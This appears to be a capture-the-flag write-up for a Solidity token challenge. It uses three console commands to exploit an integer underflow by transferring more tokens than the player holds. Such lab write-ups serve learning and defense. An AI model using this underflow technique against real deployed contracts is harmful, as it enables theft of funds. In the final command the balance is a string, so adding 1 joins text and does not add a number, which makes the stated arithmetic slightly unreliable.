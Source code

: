 Learning: the important of using safemath to avoid common math issues like underflow or overflow. There's a pretty [insightful](https://medium.com/loom-network/how-to-secure-your-smart-contracts-6-solidity-vulnerabilities-and-how-to-avoid-them-part-1-c33048d4d17d) post by Georgios Konstantopoulos on Solidity smart contract common vulnerabilities. In this case, we are looking to exploit number 1.


### Solution
In order to underflow, it will be as easy as going to the console and transfer more than the player current balance
1. Figure out the player's balance:
```
let player_balance = await contract.balanceOf(player).then(v => v.toString());
```

2. Figure out the deployer's balance, just to confirm that most of the supply is there:
```
await contract.balanceOf(level).then(v => v.toString());
```

3. We want to force the user to hold a negative balance (because balance is of type unsigned integer). There we will send a bit more than his current balance to the deployer address, who holds the initial supply:
```
await contract.transfer(level, player_balance + 1);
```

My tx in testnet: https://rinkeby.etherscan.io/tx/0x4cca6c0fa8bda8a66f22cc508ff67eef325438556724dbda5f8bf768e59f6168